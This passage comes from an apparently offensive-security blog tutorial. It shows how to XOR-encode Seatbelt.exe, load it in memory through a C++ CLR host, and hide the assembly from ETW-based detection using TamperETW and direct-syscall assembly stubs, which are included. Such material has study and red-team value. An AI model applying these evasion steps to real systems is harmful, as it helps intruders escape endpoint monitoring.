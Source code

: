 - 替换数组rawData中的内容
- 定义mscorlibPath的路径
- 定义runtimeVersion的版本

代码会对数组rawData中的内容逐个字符同`0x01`作异或运算，还原出Seatbelt.exe的文件内容，再进行加载并向Main函数传入参数

编译后生成文件HostingCLR_with_arguments_XOR.exe，测试命令实例：

```
HostingCLR_with_arguments_XOR.exe -group=all
```

使用Process Explorer查看进程HostingCLR_with_arguments_XOR.exe的`.NET Assemblies`项，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-8-11/3-1.png)

能够获得.NET程序集的名称

如果想要隐藏.NET程序集的名称，需要绕过ETW的检测

#### 3.绕过ETW的检测

这里参考代码https://github.com/outflanknl/TamperETW/

引入其中绕过EWT的代码，代码已上传至github，地址如下：

https://github.com/3gstudent/Homework-of-C-Language/blob/master/HostingCLR_with_arguments_XOR_TamperETW.cpp

这里还需要添加asm文件`Syscalls.asm`，实现对汇编文件的调用

新建项，选择`C++文件`，输入文件名Syscalls.asm，具体内容如下：

```
.code

; Reference: https://j00ru.vexillium.org/syscalls/nt/64/

; Windows 7 SP1 / Server 2008 R2 specific syscalls

ZwProtectVirtualMemory7SP1 proc
		mov r10, rcx
		mov eax, 4Dh
		syscall
		ret
ZwProtectVirtualMemory7SP1 endp

ZwWriteVirtualMemory7SP1 proc
		mov r10, rcx
		mov eax, 37h
		syscall
		ret
ZwWriteVirtualMemory7SP1 endp

ZwReadVirtualMemory7SP1 proc
		mov r10, rcx
		mov eax, 3Ch
		syscall
		ret
ZwReadVirtualMemory7SP1 endp

; Windows 8 / Server 2012 specific syscalls

ZwProtectVirtualMemory80 proc
		mov r10, rcx
		mov eax, 4Eh
		syscall
		ret
ZwProtectVirtualMemory80 endp
```